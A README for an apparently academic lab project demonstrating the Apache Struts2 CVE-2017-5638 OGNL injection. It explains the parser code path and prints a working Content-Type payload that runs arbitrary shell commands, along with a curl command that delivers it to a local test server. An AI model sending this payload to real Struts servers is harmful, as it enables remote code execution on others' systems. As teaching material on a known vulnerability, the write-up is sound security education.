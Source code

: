 # Apache Struts2 Vulnerability | CVE-2017-5638 | Version 2.5

## Disclaimer

*This is meant for educational, and research purposes only. I do not authorize or endorse any illegal or unethical use of this projects contents or information*

## Instructions

To run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)
* Java 1.8
* the webapp boots on port 80 by default (http://localhost:80/MSCybersecurity)

To Send commands:

*blank url defaults to http://localhost:80/MSCybersecurity/exploit, you must be on /exploit endpoint*

*if you are running on a mac you will have to change from port 80 to something (it's reserved)*

![send](src/main/resources/META-INF/resources/images/send.png)

* java -jar Send.jar

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

NVD [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638)

## The Payload

The clever aspect of this vulernability is the exploitation of OGNL (Object Graph Navigation Library).

OGNL uses expressions to perform tasks, and two of the expressions that are allowed is the ability to invoke arbitrary classes in the framework, and chain events. Reference guide [OGNL Language Guide](https://commons.apache.org/proper/commons-ognl/language-guide.html).

So for example, it is possible then to instantiate edu.uvu.ms.cybersecurity.Command object with OGNL 
 
    //  OGNL expression to instantiate Command obj
    (#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity'))
  
The edu.uvu.ms.cybersecurity.Command class

    // Command simply prints the cmd argument passed from the OGNL expression
    public class Command {
      private Object cmd;
      
      public Command(Object cmd){
        this.cmd = cmd;
      }

      private void print(){
          System.out.println("OGNL recieved cmd: "+this.cmd);
      }
      
      public void print(String loc){
          System.out.println("OGNL recieved cmd: "+this.cmd+" from "+loc);
      }
    }
     
 Or, in a more practical sense, one can invoke the java.lang.ProcessBuilder class to run system level commands 
  
    (#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

The following payload contains a command to invoke edu.uvu.ms.cybersecurity.Command and print the command issued to the server into the console, and then proceed to execute the command. (to illustrate chaining of events, and invoking classes)


    Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}


Deliver the payload with CURL

    curl -H "Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" -X POST http://localhost:8080/MSCybersecurity/exploit

A portion of this payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)

## The Breakdown (as viewed from my IDE)

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGNL expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OgnlTextParser.class, which simply interprets the OGNL expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPart library and invokes the *MultiPartRequestWrapper()* constructor
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

he OGNL expression from the Content-Type header is then passed into the *parse()* method. Because the header information is bad, the parser will raise an exception and call the *buildErrorMessage()* method 

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

The *buildErrorMessage()* method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class *findText()* method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The LocalizedTextUtil.class findText method will in turn call *getDefaultMessage()* and pass in the Content-Type information 

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The *getDefaultMessage()* message will then delegate to TextParseUtil.class *translateVariables()* method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class *translateVariables()* method delegates to the OgnlTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGNL expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

                      
